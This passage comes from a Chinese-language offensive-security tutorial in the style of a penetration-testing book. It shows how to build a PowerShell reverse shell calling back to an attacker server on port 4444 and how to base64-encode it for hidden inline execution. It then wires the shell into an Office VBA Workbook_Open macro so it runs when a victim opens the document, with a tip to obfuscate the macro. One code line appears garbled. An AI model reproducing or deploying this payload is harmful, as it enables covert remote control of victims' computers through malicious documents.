
在Front Gun服务器上，我们在端口4444上设置了监听器:

![](./Chap2/6.Listener.png)

漂亮！我们在远程（测试）机器上进行远程执行。理想情况下，我们希望使用类似的VBA代码来调用此脚本:

```VBA> Shell ("powershell c:\temp\reverse.ps1 ")```

但是我们需要在将脚本写入到目标磁盘上，这可能会触发更多告警。避免这种情况的一种方法是使用PowerShell的内联命令执行的强大功能！我们执行作为powershell.exe参数传递过来的一串代码，从而替代执行一个脚本文件。


我们首先在每条指令的末尾添加一个分号';':
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.1.11",4444);
$stream = $client.GetStream();

$greeting = "PS " + (pwd).Path + "> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($greeting);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flus [byte[]]$bytes = 0..255|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```


然后我们在Linux上用Unicode base64编码脚本的内容:
```
FrontGun$ cat reverse.ps1 | iconv -f UTF8 -t UTF16LE | base64
```

![](./Chap2/7.Encode.png)


<br>
<br>

我们可以使用编码命令作为inline参数来调用此代码:

![](./Chap2/8.InlineArg.png)


'-W hidden'参数将PowerShell隐藏在后台。最后一步是在用户打开Office文档时调用此过程 -  Launch_me（）:
```
Sub Workbook_Open()	
 	Launch_me()	 
End Sub
```

我们可以进一步调整这个VBA宏，使其不那么容易阅读，但仍然让它可以正常工作。一个有趣的工具是Lucky Strike。它提供了漂亮的功能，如使用用户的电子邮件域（@sph-assets.com）加密和其他有用的选项。


#### 3)The Empire strikes
之前的有效载荷很好，但在现场情况下它有一些主要的限制:
```